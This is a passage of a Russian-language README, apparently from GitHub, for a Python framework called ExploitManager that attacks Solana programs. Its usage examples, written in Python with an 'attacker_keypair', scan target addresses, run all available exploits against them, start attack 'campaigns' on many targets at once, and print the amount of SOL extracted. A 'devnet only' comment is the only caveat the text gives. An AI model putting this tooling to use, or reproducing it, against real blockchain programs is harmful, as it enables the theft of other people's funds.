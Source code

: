 ### Менеджер эксплойтов `ExploitManager`

Координирует выполнение различных типов эксплойтов:

```python
from src.exploits import ExploitManager

manager = ExploitManager(rpc_url, attacker_keypair)

# Комплексное сканирование
scan_result = await manager.scan_target_comprehensive(target)

# Выполнение всех эксплойтов
results = await manager.execute_all_exploits(target)

# Запуск кампании
campaign_id = await manager.start_campaign("My Campaign", targets)
```

## 🚀 Быстрый старт

### 1. Установка зависимостей

```bash
pip install solana solders spl-token asyncio
```

### 2. Настройка окружения

```python
import asyncio
from solana.keypair import Keypair
from src.exploits import ExploitManager

# Настройки
RPC_URL = "https://api.devnet.solana.com"  # ТОЛЬКО DEVNET!
attacker_keypair = Keypair()  # Или загрузите существующий

# Создание менеджера
manager = ExploitManager(RPC_URL, attacker_keypair)
```

### 3. Базовое использование

```python
async def basic_exploit():
    # Сканирование цели
    target = "11111111111111111111111111111112"
    scan_result = await manager.scan_target_comprehensive(target)
    
    if scan_result["exploitable"]:
        # Выполнение эксплойтов
        results = await manager.execute_all_exploits(target)
        
        for result in results:
            if result.status == ExploitStatus.SUCCESS:
                print(f"Успех: {result.extracted_value} SOL")

asyncio.run(basic_exploit())
```

